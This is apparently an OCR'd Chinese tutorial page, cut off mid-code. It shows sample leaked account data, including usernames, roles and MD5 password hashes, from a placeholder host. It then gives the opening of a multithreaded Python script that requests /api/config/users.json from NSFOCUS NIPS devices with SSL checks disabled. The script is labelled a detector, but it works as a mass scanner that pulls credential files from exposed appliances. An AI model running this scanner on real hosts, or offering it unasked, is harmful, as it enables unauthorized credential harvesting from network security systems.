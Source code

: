 [  
  
  {  
  
    "url": "  
https://example-nsfocus-system.com",  
  
    "details": "用户: admin, 角色: 管理员; 用户: audit, 角色: 审计员",  
  
    "data": [  
  
      {  
  
        "name": "admin",  
  
        "password": "5f4dcc3b5aa765d61d8327deb882cf99",  // MD5哈希  
  
        "role": "管理员"  
  
      },  
  
      {  
  
        "name": "audit",  
  
        "password": "d8578edf8458ce06fbc5bb76a58c5ca4",  
  
        "role": "审计员"  
  
      }  
  
    ]  
  
  }  
  
]  
  
（2）nsfocus_vulnerability_report.csv：所有目标的检测结果  
  
（3）detection_log.txt：详细的检测日志  
  
将以下代码保存为：  
  
nsfocus_vuln_detector.py  
```
import requests
import json
import time
import csv
import socket
import urllib3
from requests.adapters import HTTPAdapter
from urllib3.util.retry import Retry
from concurrent.futures import ThreadPoolExecutor, as_completed

# 禁用SSL警告
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

def check_nsfocus_vulnerability(url):
    """检测绿盟NIPS系统的users.json泄露漏洞"""
    # 构造目标URL
    target_url = url.rstrip('/') + '/api/config/users.json'

    # 准备请求参数
    session = requests.Session()
    retries = Retry(total=2, backoff_factor=0.5, status_forcelist=[500, 502, 503, 504])
    session.mount('https://', HTTPAdapter(max_retries=retries))
    session.mount('http://', HTTPAdapter(max_retries=retries))

    try:
        # 发送请求（忽略SSL验证）
        response = session.get(
            target_url,
```